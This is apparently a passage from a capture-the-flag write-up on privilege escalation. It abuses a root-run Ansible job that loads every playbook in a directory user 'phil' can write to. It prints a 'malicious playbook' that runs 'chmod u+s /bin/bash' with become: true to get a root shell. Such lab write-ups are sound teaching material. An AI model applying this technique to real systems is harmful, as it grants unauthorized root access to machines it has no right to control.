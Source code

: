 We can see that the `root` user is running Ansible playbooks in the background. We can also see that there is a wildcard being used to detect `.yml` files via `/opt/automation/tasks/*.yml`. The user `phil` can also create files within this directory.

Pretty straightforward PE vector. We can see the existing playbook to follow the format required.

```yaml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

This playbook using the built-in `systemd` module, and we can replace that with `ansible.builtin.shell` to execute commands.&#x20;

{% embed url="https://docs.ansible.com/archive/ansible/2.3/shell_module.html" %}

After changing the module and command, we need to specify `become: true` to enable privilege escalation. This is the malicious playbook created:

```yaml
- hosts: localhost
  tasks:
  - name: giving me root shell
    ansible.builtin.shell: |
      chmod u+s /bin/bash
    become: true 
```

Download this via `wget` to the machine and wait. After a bit, we should get an easy root shell.

<figure><img src="../../.gitbook/assets/image (26) (8).png" alt=""><figcaption></figcaption></figure>

Pwned.&#x20;
